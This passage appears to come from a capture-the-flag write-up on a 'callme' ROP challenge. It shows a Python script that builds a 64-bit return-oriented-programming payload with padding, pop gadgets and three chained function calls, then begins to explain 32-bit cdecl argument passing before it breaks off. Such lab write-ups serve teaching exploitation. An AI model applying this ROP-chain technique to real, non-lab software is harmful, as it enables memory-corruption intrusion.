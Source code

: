 ```python
payload = b'A' * 40
payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2) 
payload += pack('<Q', word3)

payload += pack('<Q', callme_one)

payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)      
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2)
payload += pack('<Q', word3)

payload += pack('<Q', callme_two)

payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)      
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2)
payload += pack('<Q', word3)

payload += pack('<Q', callme_three)

# Output the payload
with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```

## Result:

![image.png](image4.png)

# callme 32-bit

In x86 (32-bit) calling conventions, arguments for functions are passed on the stack, and the specific convention dictates how this is done. Here’s how it typically works in the `cdecl` convention for a function that takes three arguments.

### `cdecl` Calling Convention in x86 (32-bit)

In `cdecl`, arguments are passed **right-to-left** on the stack. The caller is responsible for pushing the arguments to the stack before the function call and for cleaning up the stack afterward.

### Example Function Call
